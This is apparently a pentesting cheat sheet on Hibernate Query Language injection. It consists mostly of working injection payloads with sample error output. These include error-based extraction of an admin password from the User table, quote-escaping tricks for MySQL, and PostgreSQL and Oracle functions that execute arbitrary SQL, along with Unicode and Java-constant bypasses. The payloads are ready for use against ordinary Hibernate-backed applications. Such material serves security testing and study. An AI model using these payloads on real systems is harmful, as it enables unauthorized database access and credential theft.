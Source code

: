 # Hibernate Query Language Injection

> Hibernate ORM (Hibernate in short) is an object-relational mapping tool for the Java programming language. It provides a framework for mapping an object-oriented domain model to a relational database. - Wikipedia

## Summary

* [HQL Comments](#hql-comments)
* [HQL List Columns](#hql-list-columns)
* [HQL Error Based](#hql-error-based)
* [Single Quote Escaping](#single-quote-escaping)
* [$-quoted strings](#--quoted-strings)
* [DBMS Magic functions](#dbms-magic-functions)
* [Unicode](#unicode)
* [Java constants](#java-constants)
* [Methods by DBMS](#methods-by-dbms)
* [References](#references)

:warning: Your input will always be between the percentage symbols: `%INJECT_HERE%`

## HQL Comments

```sql
HQL does not support comments
```

## HQL List Columns

```sql
from BlogPosts
where title like '%'
  and DOESNT_EXIST=1 and ''='%' --
  and published = true
```

Using an unexisting column will an exception leaking several columns names.

```sql
org.hibernate.exception.SQLGrammarException: Column "DOESNT_EXIST" not found; SQL statement:
      select blogposts0_.id as id21_, blogposts0_.author as author21_, blogposts0_.promoCode as promo3_21_, blogposts0_.title as title21_, blogposts0_.published as published21_ from BlogPosts blogposts0_ where blogposts0_.title like '%' or DOESNT_EXIST='%' and blogposts0_.published=1 [42122-159]
```

## HQL Error Based

```sql
from BlogPosts
where title like '%11'
  and (select password from User where username='admin')=1
  or ''='%'
  and published = true
```

Error based on value casting.

```sql
Data conversion error converting "d41d8cd98f00b204e9800998ecf8427e"; SQL statement:
select blogposts0_.id as id18_, blogposts0_.author as author18_, blogposts0_.promotionCode as promotio3_18_, blogposts0_.title as title18_, blogposts0_.visible as visible18_ from BlogPosts blogposts0_ where blogposts0_.title like '%11' and (select user1_.password from User user1_ where user1_.username = 'admin')=1 or ''='%' and blogposts0_.published=1
```

:warning: **HQL does not support UNION queries**

## Single Quote Escaping

Method works for MySQL DBMS which escapes SINGLE QUOTES in strings with SLASH `\'`.

In HQL SINGLE QUOTES is escaped in strings by doubling `''`.

```
'abc\''or 1=(select 1)--'
```

In HQL it is a string, in MySQL it is a string and additional SQL expression.

## $-quoted strings

Method works for DBMS which allow DOLLAR-QUOTED strings in SQL expressions: PostgreSQL, H2.

Hibernate ORM allows identifiers starting with `$$`.

```
$$='$$=concat(chr(61),chr(39)) and 1=1--'
```

## DBMS Magic functions

Method works for DBMS which have MAGIC FUNCTIONS which evaluate SQL expression in string parameter: PostgreSQL, Oracle.

Hibernate allows to specify any function name in HQL expression.

PostgreSQL has built-in function `query_to_xml('Arbitrary SQL')`.

```
array_upper(xpath('row',query_to_xml('select 1 where 1337>1', true, false,'')),1)
```

Oracle has built-in function `DBMS_XMLGEN.getxml('SQL')`

```
NVL(TO_CHAR(DBMS_XMLGEN.getxml('select 1 where 1337>1')),'1')!='1'
```

## Unicode

Method works for DBMS which allow UNICODE delimiters (Ex. U+00A0) between SQL tokens: Microsoft SQL Server, H2.

In Microsoft SQL SERVER `SELECT LEN([U+00A0](select[U+00A0](1))` works the same as `SELECT LEN((SELECT(1)))`;

HQL allows UNICODE symbols in identifiers (function or parameter names).

```
SELECT p FROM hqli.persistent.Post p where p.name='dummy' or 1<LEN( (select top 1 name from users)) or '1'='11'
```

## Java constants

Method works for most DBMS (does not work for MySQL).

Hibernate resolves Java public static fields (Java constants) in HQL queries:

- Class with Java constant must be in classpath
- Ex. `java.lang.Character.SIZE` is resolved to 16
- String or char constants are additionally surrounded by single quotes

To use JAVA CONSTANTS method we need special char or string fields declared in classes or interfaces on classpath.

```java
public class Constants {
    public static final String S_QUOTE = "'";
    public static final String HQL_PART = "select * from Post where name = '";
    public static final char C_QUOTE_1 = '\'';
    public static final char C_QUOTE_2 = '\047';
    public static final char C_QUOTE_3 = 39;
    public static final char C_QUOTE_4 = 0x27;
    public static final char C_QUOTE_5 = 047;
}
```

Some usable constants in well-known Java libraries:

```ps1
org.apache.batik.util.XMLConstants.XML_CHAR_APOS         [ Apache Batik ]
com.ibm.icu.impl.PatternTokenizer.SINGLE_QUOTE           [ ICU4J ]
jodd.util.StringPool.SINGLE_QUOTE                        [ Jodd ]
ch.qos.logback.core.CoreConstants.SINGLE_QUOTE_CHAR      [ Logback ]
cz.vutbr.web.csskit.OutputUtil.STRING_OPENING            [ jStyleParser ]
com.sun.java.help.impl.DocPConst.QUOTE                   [ JavaHelp ]
org.eclipse.help.internal.webapp.utils.JSonHelper.QUOTE  [ EclipseHelp ]
```

```
dummy' and hqli.persistent.Constants.C_QUOTE_1*X('<>CHAR(41) and (select count(1) from sysibm.sysdummy1)>0 --')=1 and '1'='1
```

## Methods by DBMS

![image](https://user-images.githubusercontent.com/16578570/163428666-a22105a8-287c-4997-8aef-8f372a1b86e9.png)

## References

* [HQL for pentesters - February 12, 2014 - Philippe Arteau](https://blog.h3xstream.com/2014/02/hql-for-pentesters.html)
* [How to put a comment into HQL (Hibernate Query Language)? - Thomas Bratt](https://stackoverflow.com/questions/3196975/how-to-put-a-comment-into-hql-hibernate-query-language)
* [HQL : Hyperinsane Query Language - 04/06/2015 - Renaud Dubourguais](https://www.synacktiv.com/ressources/hql2sql_sstic_2015_en.pdf)
* [ORM2Pwn: Exploiting injections in Hibernate ORM - Nov 26, 2015 - Mikhail Egorov](https://www.slideshare.net/0ang3el/orm2pwn-exploiting-injections-in-hibernate-orm)
* [New Methods for Exploiting ORM Injections in Java Applications - HITBSecConf2016 - Mikhail Egorov - Sergey Soldatov](https://conference.hitb.org/hitbsecconf2016ams/materials/D2T2%20-%20Mikhail%20Egorov%20and%20Sergey%20Soldatov%20-%20New%20Methods%20for%20Exploiting%20ORM%20Injections%20in%20Java%20Applications.pdf)
* [HQL Injection Exploitation in MySQL - July 18, 2019 - Olga Barinova](https://www.trustwave.com/en-us/resources/blogs/spiderlabs-blog/hql-injection-exploitation-in-mysql/)
